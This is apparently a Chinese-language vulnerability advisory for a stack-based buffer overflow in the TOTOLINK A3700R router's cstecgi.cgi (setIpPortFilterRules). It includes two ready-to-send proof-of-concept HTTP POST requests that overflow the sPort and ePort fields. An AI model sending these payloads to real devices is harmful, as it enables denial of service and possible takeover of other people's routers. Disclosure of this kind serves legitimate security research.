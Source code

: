 

### **概述**：
影响设备：totolink A3700R

影响固件版本：V9.1.2u.6165_20211012

影响：堆栈溢出，可以造成拒绝服务和权限提升

固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>

报送邮箱 : zwx918569613@gmail.com


![](Pasted%20image%2020231022165035.png)

### **漏洞**：

该漏洞位于`cstecgi.cgi`中的函数`FUN_0041f884`，函数别名`setIpPortFilterRules`


![](Pasted%20image%2020231023212707.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
未对传入的参数`sPort`和`ePort`进行长度限制，而`sprintf`格式化拼接参数`sPort`或者`ePort`到变量`acStack_70`中，存在堆栈溢出漏洞


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","sPort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","ePort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

### **影响效果**：


![](Pasted%20image%2020231023212539.png)
![](Pasted%20image%2020231023213646.png)
